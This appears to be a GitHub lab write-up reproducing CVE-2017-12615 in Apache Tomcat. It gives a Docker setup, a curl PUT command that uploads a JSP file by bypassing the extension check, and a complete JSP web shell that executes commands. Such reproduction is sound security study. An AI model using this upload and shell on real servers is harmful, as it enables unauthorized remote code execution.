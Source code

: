 # CVE-2017-12615

## PS
- Bug Overview: When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP PUTs enabled (e.g. via setting the read-only initialisation parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server. That could lead to remote code execution on the server.
- Aim: Write a working exploit for this CVE by which you can achieve RCE on local VM/Docker.
- Install vulnerable service in a VM/Docker and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.


## Description
As a security measure, Apache Tomcat doesn't let you upload JSP files via the PUT method. But due to insufficient checks, an attacker can upload JSP files on 7.0.0 to 7.0.79 Tomcat servers that have PUT method enabled and as a result get remote code execution.


## Environment
We replicated the environment for this vulnerability in a docker container using the following Dockerfile. This will use tomcat 7.0.79, replace the web.xml file with our modified file and start the service on port 8080.
```
FROM tomcat:7.0.79-jre8
COPY web.xml /usr/local/tomcat/conf/
EXPOSE 8080
```

We added the following code in web.xml to enable the PUT method.
```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```


## Exploit
We can bypass the file extension check by appending a '/' character after the file's extension. We used the following curl command to upload a JSP file on the server.

```bash
curl -X PUT http://localhost:8080/reverse_shell.jsp/ -d @- < reverse_shell.jsp
```

reverse_shell.jsp file receives the command to be executed using HTML, so we can directly goto `http://localhost:8080/reverse_shell.jsp` and execute commands on the server
```js
<%@ page import="java.util.*,java.io.*"%>
<%%>
<HTML>
    <BODY>
        <H3>JSP SHELL</H3>
        <FORM METHOD="GET" NAME="myform" ACTION="">
            <INPUT TYPE="text" NAME="cmd">
            <INPUT TYPE="submit" VALUE="Execute">
        </FORM>
        <PRE>
            <%
                if (request.getParameter("cmd") != null) {
                    out.println("Command: " +
                    request.getParameter("cmd") + "<BR>");
                    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
                    OutputStream os = p.getOutputStream();
                    InputStream in = p.getInputStream();
                    DataInputStream dis = new DataInputStream(in);
                    String disr = dis.readLine();
                    while ( disr != null ) {
                        out.println(disr);
                        disr = dis.readLine();
                    }
                }
            %>
        </PRE>
    </BODY>
</HTML>
```
